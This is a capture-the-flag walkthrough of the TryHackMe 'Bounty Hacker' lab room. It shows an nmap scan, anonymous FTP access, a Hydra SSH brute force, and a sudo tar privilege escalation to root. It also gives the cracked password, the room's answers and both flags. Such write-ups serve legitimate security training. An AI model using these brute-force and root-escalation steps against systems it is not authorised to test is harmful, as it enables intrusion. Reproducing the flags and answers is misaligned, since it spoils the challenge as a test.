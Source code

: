# [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

`Machine's IP - 10.10.113.185`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.113.185 -Pn > nmap-bountyhacker.log`

# Analyzing Information and Risks
I certainly noticed that FTP (File Transfer Protocol) allowed Anonymous login, so I went to check that out. The website didn't have anything important.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-16 20:52 Central Standard Time (Mexico)
Nmap scan report for 10.10.136.125
Host is up (0.49s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.20.112
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.71 seconds
```

I logged into FTP `ftp 10.10.113.185` with user `Anonymous` and, bingo! I'm in. Listing the contents, I got this:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
locks.txt
task.txt
226 Directory send OK.
ftp: 24 bytes received in 0.00Seconds 24.00Kbytes/sec.
```

Using `mget *` I downloaded both files, and in my local directory I saw the content.\
Question 1 - Who wrote the task list? - Lin \
Question 2 - What service can you bruteforce with the text file found? - SSH

The next thing was getting Hydra ready. I passed the `-l lin` for user and `-P locks.txt` for the list and .. 

`[22][ssh] host: 10.10.113.185   login: lin   password: RedDr4gonSynd1cat3`

Houston, we're in. \
Question 3 - What is the users password? - RedDr4gonSynd1cat3

Now that I had the SSH login credentials, I decided to look around. So, I logged in `ssh lin@10.10.113.185`. Inside, I listed the contents
of the current directory and found the first flag.\
Question 4 - user.txt


```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

So, being here I could've gone with [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but since the password was already cracked I listed the users permissions with `sudo -l`.
I noted the following:

```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

With this, I decided to go to [GTFOBins](https://gtfobins.github.io/) and searched for tar. Obviously I went with the sudo option:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

Aaaanddd, we have root. \
Question 5 - root.txt

```bash
root@bountyhacker:~/Desktop# whoami
root
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{80UN7Y_h4cK3r}
```

## License
[MIT](https://choosealicense.com/licenses/mit/)